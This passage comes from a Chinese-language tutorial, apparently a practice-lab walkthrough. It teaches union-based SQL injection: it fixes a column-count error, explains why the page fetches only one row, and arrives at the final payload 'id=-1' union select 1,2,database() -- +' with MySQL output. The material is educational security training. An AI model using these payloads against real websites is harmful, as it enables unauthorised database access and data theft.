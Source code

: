 接下来测试`id=1' union select database() -- +`，`-- +`是注释符
![5](/img/2018-07-20/5.png)
发现报错了，错误上说了，列的数量对不上，修改为`id=1' union select 1,2,database() -- +`,页面返回正常但没有返回我们所希望的数据库名称
这个是因为index.php中`mysql_fetch_array`函数只调用了一个
![6](/img/2018-07-20/6.png)
`mysql_fetch_array`函数的作用是从结果集中取得一行作为关联数组或数字数组或二者兼有，可以在终端下试一下，这里就不演示了，下面是我们提交sql查询语句在终端下的结果
```
mysql> select * from users where id = '1' union select 1,2,database();
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | security |
+----+----------+----------+
2 rows in set (0.00 sec)
```
上面查询结果可以看到返回了两个结果，但是`mysql_fetch_array`只取一行，也就是说要让查询出来的结果放在第一行，这里就用最简单快捷的一种,把id的1改为-1，-1查询不到，因此结果就是我们想要的
```
mysql> select * from users where id = '-1' union select 1,2,database();
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | 2        | security |
+----+----------+----------+
1 row in set (0.00 sec)
```
最终的payload为`id=-1' union select 1,2,database() -- +`